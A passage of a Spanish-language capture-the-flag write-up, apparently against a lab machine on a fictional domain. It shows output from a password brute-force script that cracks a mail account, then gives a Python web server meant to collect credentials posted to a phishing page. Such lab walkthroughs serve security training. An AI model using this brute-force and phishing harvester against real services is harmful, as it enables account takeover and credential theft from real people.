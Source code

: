 Lo ejecutamos usando 25 hilos:

```bash
$ python brute.py -t 25
...
Code: 401 - passw: Mur_5901990
Code: 401 - passw: 05199090
Code: 401 - passw: Mur99051990
Succes with mur.rusko@phisermansphriends.thl:MurRusko_90
Code: 401 - passw: Rusko1990
Code: 401 - passw: Rusko05
...
```

Encontramos la clave de acceso de **mur.rusko** para el servicio de mail. 

Ahora vamos intentar hacer phishing para obtener las credenciales de **intranet.phisermansphriends.thl**. 

Primero ponemos a la escucha un servidor en python que acepte **GET** y POST:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == '/':
            self.path = '/index.html'
        try:
            file_path = '.' + self.path
            with open(file_path, 'rb') as file:
                self.send_response(200)
                if file_path.endswith('.html'):
                    self.send_header("Content-type", "text/html")
                self.end_headers()
                self.wfile.write(file.read())
        except FileNotFoundError:
            self.send_response(404)
            self.send_header("Content-type", "text/plain")
            self.end_headers()
            self.wfile.write(b"404 Not Found")
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        body = self.rfile.read(content_length)
        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()
        self.wfile.write(b"Received POST request with body: " + body)
        print(body)

def run_server():
    server_address = ('', 80)
    httpd = HTTPServer(server_address, RequestHandler)
    print("Server running on port 80...")
    httpd.serve_forever()

if __name__ == "__main__":
    run_server()
```
